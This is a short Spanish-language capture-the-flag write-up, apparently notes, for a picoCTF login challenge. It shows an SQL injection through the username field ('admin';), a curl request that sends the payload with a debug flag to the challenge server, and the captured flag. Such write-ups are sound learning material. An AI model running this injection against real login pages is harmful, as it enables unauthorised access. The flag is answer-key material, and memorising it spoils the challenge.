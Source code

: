 Se le quita el hidden al cuadro oculto
Se cambia la variable por 1
Se inyecta en la consulta

	Username: admin';
	Password: 'la que sea'

Your flag is: picoCTF{m0R3_SQL_plz_aee925db}

---------------------------------
curl https://jupiter.challenges.picoctf.org/problem/33850/login.php -d "username=admin';&pasword=hola;&debug=1" 